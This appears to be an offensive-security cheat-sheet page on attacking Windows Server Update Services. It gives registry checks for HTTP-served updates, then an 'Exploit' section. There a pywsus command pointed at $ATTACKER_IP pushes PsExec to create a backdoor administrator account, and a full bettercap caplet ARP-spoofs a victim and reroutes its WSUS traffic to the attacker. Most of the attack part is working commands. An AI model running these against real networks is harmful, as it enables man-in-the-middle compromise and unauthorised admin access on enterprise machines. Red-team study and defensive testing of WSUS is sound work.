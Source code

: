 ```yaml
---
description: Windows Server Update Services
---
```


# WSUS

* [https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#wsus](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#wsus)




## HTTP MitM

* [https://www.blackhat.com/docs/us-15/materials/us-15-Stone-WSUSpect-Compromising-Windows-Enterprise-Via-Windows-Update.pdf](https://www.blackhat.com/docs/us-15/materials/us-15-Stone-WSUSpect-Compromising-Windows-Enterprise-Via-Windows-Update.pdf)
* [https://github.com/GoSecure/pywsus](https://github.com/GoSecure/pywsus)
* [https://www.gosecure.net/blog/2020/09/03/wsus-attacks-part-1-introducing-pywsus/](https://www.gosecure.net/blog/2020/09/03/wsus-attacks-part-1-introducing-pywsus/)
* [https://www.thehacker.recipes/systems-and-services/privilege-escalation/windows/wsus-attacks](https://www.thehacker.recipes/systems-and-services/privilege-escalation/windows/wsus-attacks)

Check:

```
PS > reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer

HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer
      WUServer    REG_SZ    http://wsus.megacorp.local:8530

PS > reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\AU /v UseWUServer

HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\AU /v UseWUServer
      UseWUServer    REG_DWORD    0x1
```

Exploit:

```
$ python3 pywsus.py --host $ATTACKER_IP --port 8530 --executable /home/snovvcrash/www/PsExec64.exe --command '/accepteula /s cmd.exe /c "net user testuser Passw0rd! /add && net localgroup Administrators testuser /add"'
$ sudo ./bettercap --iface $INTERFACE --caplet wsus.cap
```

{% code title="wsus.cap" %}
```bash
# Quick recon of the network
net.probe on

# Set the ARP spoofing
set arp.spoof.targets $CLIENT_IP
set arp.spoof.internal false
set arp.spoof.fullduplex false

# Re-route traffic aimed at the WSUS server
set any.proxy.iface $INTERFACE
set any.proxy.protocol TCP
set any.proxy.src_address $WSUS_SERVER_IP
set any.proxy.src_port 8530
set any.proxy.dst_address $ATTACKER_IP
set any.proxy.dst_port 8530

# Control logging and verbosity
events.ignore endpoint
events.ignore net.sniff

# Start the modules
any.proxy on
arp.spoof on
net.sniff on
```
{% endcode %}




## Local Proxy (LPE)

- [https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/](https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/)




## WSUS + LDAPS NTLM Relay

- [https://www.gosecure.net/blog/2021/11/22/gosecure-investigates-abusing-windows-server-update-services-wsus-to-enable-ntlm-relaying-attacks/](https://www.gosecure.net/blog/2021/11/22/gosecure-investigates-abusing-windows-server-update-services-wsus-to-enable-ntlm-relaying-attacks/)




## Tools



### SharpWSUS

- [https://labs.nettitude.com/blog/introducing-sharpwsus/](https://labs.nettitude.com/blog/introducing-sharpwsus/)
- [https://github.com/nettitude/SharpWSUS](https://github.com/nettitude/SharpWSUS)
